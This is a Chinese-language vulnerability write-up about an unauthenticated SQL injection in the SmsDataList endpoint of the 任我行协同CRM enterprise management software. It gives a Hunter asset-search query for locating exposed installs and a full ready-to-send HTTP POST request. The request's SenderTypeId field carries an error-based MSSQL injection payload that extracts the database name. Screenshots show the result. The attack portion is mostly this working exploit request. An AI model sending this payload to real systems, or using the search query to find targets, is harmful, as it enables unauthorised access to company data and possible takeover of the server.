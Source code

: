 # 任我行协同CRM SmsDataList SQL注入漏洞

# 一、漏洞简介
任我行CRM是CRM（客户关系管理）、OA（自动化办公）、OM（目标管理）、KM（知识管理）、HR（人力资源）一体化的企业管理软件。通过建立组织运营管理铁三角（目标行动-企业文化-知识复制），一切围绕以客户为中心的全方位、透明化业务管理（市场-销售-生产-服务），打造企业组织高效协同的运营管理平台。任我行协同CRM存在SQL注入漏洞，远程未授权攻击者可利用此漏洞获取敏感信息，进一步利用可能获取目标系统权限。

# 二、影响版本
+ 任我行协同CRM

# 三、资产测绘
+ hunter`app.name="任我行 CRM"`
+ 登录页面

![1693755730548-775a0355-02ba-402a-84c9-f9c7641487b3.png](./img/fb9-U7Q5eukS7Cj1/1693755730548-775a0355-02ba-402a-84c9-f9c7641487b3-878825.png)

# 四、漏洞复现
```plain
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Host: {hostname}
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Content-Length: 23

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=0000000000'and 1=convert(int,(db_name())) AND 'CvNI'='CvNI
```

![1693755785656-95d682b9-8ed9-43d5-9820-2b9472793922.png](./img/fb9-U7Q5eukS7Cj1/1693755785656-95d682b9-8ed9-43d5-9820-2b9472793922-602439.png)

![1693755800442-ba863c4c-023b-4191-a0cd-d7b7f1f28132.png](./img/fb9-U7Q5eukS7Cj1/1693755800442-ba863c4c-023b-4191-a0cd-d7b7f1f28132-482931.png)



> 更新: 2024-02-29 23:55:50  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qng5bs4r6v7vunkw>